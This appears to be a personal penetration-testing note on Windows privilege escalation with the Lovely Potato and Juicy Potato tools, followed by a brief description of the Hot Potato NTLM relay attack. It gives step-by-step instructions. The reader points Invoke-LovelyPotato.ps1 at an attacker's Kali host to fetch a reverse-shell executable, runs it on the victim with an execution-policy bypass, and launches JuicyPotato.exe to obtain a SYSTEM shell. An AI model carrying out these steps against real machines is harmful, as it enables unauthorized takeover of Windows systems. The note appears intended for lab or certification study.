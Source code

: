[[1._Reverse Shells (WIN)#MSFVenom]]

MAKE SURE YOU HAVE ALL THESE FILES IN LOVELY-POTATO FOLDER:
- [ ] Invoke-LovelyPotato.ps1
- [ ] JuicyPotato-Static.exe
- [ ] test_clsid.bat
- [ ] reverse.exe

[[rlwrap]]

==OPEN AND FOLLOW THE README!!==

==Make sure you change all the variables needed!==

Invoke-LovelyPotato.ps1:

`$RemoteDir = "http://$KALI`
`$LocalPath = "[WritablePathOnVictimMachine]"`

Replace the first "meterpreter.exe" with "reverse{86/64}.exe" 

![[Pasted image 20211229211045.png]]

![[Pasted image 20220205162717.png]]

Transfer and execute Invoke-LovelyPotato.ps1 on the target.
![[2._Powershell  Bypass#Execution bypass]]

![[4._File Transfers#Powershell Download and execute]]

![[Pasted image 20211229211245.png]]

Now just wait, as this can take up to 10 mins:


![[Pasted image 20211229211526.png]]

Keep an eye on result.log if unable to determine if working.  Log will grow as it's working.

![[1._Reverse Shells (WIN)#MSFVenom#bat]]

![[rlwrap]]

```command prompt - windows
JuicyPotato.exe -t * -p shell.bat -l 4444
```


#### Hot Potato
Hot Potato is the name of an attack that uses a spoofing attack along with an NTLM relay attack to gain SYSTEM privileges. 

The attack tricks Windows into authenticating as the SYSTEM user to a fake HTTP server using NTLM. The NTLM credentials then get relayed to SMB in order to gain command execution.

This attack works on Windows 7, 8, early versions of Windows 10, and their server counterparts.
